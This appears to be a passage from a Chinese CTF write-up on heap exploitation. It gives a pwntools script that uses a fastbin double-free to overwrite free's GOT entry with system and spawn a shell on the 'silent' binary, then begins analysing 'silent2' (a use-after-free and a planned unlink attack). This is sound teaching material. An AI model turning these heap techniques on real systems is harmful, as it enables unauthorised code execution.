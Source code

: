 ```

elf = ELF('./silent')
p.recvuntil('==+RWBXtIRRV+.+IiYRBYBRRYYIRI;VitI;=;..........:::.::;::::...;;;:.')
fake_chunk = 0x601ffa
system_plt = 0x400730
success('fake_chunk => ' + hex(fake_chunk))
success('system_plt => ' + hex(system_plt))
add(0x50 , 'a' * 0x4f)#chunk 0  rabbish
add(0x50 , 'b' * 0x4f)#chunk 1  rabbish
add(0x50 , 'c' * 0x4f)
#debug()
dele(0)#fastbin->chunk0
dele(1)#fastbin->chunk1->chunk0
debug()
dele(0)#fastbin->chunk0->chunk1->chunk0
add(0x50 , p64(fake_chunk))#fastbin->chunk1->chunk0->0x601ffa   fd
add(0x50 , '/bin/sh\x00')#fastbin->chunk0->0x601ffa rabbish
add(0x50 , 'c' * 0x4f)#fastbin->0x601ffa    command(chunk1)
add(0x50 , 'A' * 0xe + p64(system_plt))#free=>system
dele(1)#free(chunk1)=>system('/bin/sh\x00')
#debug()
p.interactive()
```
### silent2
![](https://p.pstatp.com/origin/dc12000326394386ff4e)

发现NX、Canary都开了，但Partial RELRO说明可以修改got表，PIE说明没有地址随机化，就可以直接利用IDA中看到的地址，不需要计算libc偏移了

先看main函数

![](https://p.pstatp.com/origin/ff23000078f995f518e1)

case1:功能就是create啦

![](https://p.pstatp.com/origin/fe4100009fb974c6947a)

注意到`*&s[8*i] = v3`这句，说明是用s这个数组来存储堆地址的，并且最多存储10个至少为0x80大小（或0x10）的堆
case2:功能就是删除delete

![](https://p.pstatp.com/origin/ffd40000814118fccb8e)

注意到free后没有给数组该元素设置为0，存在UAF漏洞

case3:功能是编辑edit

![](https://p.pstatp.com/origin/ff8700006ecadeeaeb18)

可惜这里长度不能自定义，只能根据原堆大小进行写数据，因此光看这里不存在溢出情况。

另外这里奇怪的是往0x602120的bss段中写入48个字符，或许这里也可以做文章，但我做的时候将他忽视。

看完源码后提出以下思路：
目的是执行system('/bin/sh')-->修改某个函数的（strlen或者free等）got表为system_plt-->利用unlink任意地址写
